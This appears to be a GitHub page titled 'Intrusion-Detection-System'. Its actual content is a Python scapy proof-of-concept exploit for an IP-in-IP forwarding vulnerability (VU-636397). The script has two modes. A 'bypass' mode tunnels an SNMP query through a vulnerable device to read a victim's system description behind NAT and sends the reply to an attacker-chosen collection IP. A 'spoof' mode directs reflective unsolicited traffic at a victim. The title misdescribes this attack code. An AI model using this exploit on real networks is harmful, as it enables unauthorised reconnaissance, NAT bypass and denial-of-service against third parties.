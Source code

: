 # Intrusion-Detection-System
#detect network vulnerability by ip filtering
#!/usr/bin/env python3
#PoC Script
#PoC script slightly modified to test bypass mode
import sys
from scapy.all import *
if len(sys.argv) < 3:
  print("Usage "+sys.argv[0]+" VULNERABLE_MACHINE_IP VICTIM_IP [DATA_COLLECT_IP] [spoof|bypass]")
  print("\t - Optional arguments DATA_COLLECT_IP and bypass can be used to test bypass NAT")
  sys.exit(0);
  ## IP-in-IP forwarding device vulnerable to VU-636397
VULNERABLE_MACHINE_IP = sys.argv[1]
## VICTIM IP of the machine we want to send packet to
VICTIM_IP = sys.argv[2]

if len(sys.argv) == 5 and sys.argv[4] == "bypass":
  ## Address we want to send the return traffic back to 
  DATA_COLLECT_IP = sys.argv[3]
  ## LAN bypass mode to jump into VICTIM_IP network
  ## send IP over IP (proto 4) to pull sys.descr from VICTIM_IP and send to DATA_COLLECT_IP
  send(IP(dst=VULNERABLE_MACHINE_IP)/IP(src=DATA_COLLECT_IP,dst=VICTIM_IP)/UDP(sport=3364)/
       SNMP(community="public",PDU=SNMPget(varbindlist=[SNMPvarbind(oid=ASN1_OID("1.3.6.1.2.1.1.1.0"))])))
else:
  ## spoof mode to spoof vulnerable device to send unsolicited traffic to VICTIM_IP 
  ## send unsolicited reflective DOS traffic to VICTIM_IP on port 3364 saying "I am Vulnerable"
  send(IP(dst=VULNERABLE_MACHINE_IP)/IP(src=VULNERABLE_MACHINE_IP, dst=VICTIM_IP)/UDP(sport=3364, dport=3364)/
       Raw(load="I am Vulnerable\n"))
  ## To see the packets in the DATA_COLLECTOR or VICTIM_IP execute:
  ## tcpdump -i any -nvvv udp port 3364
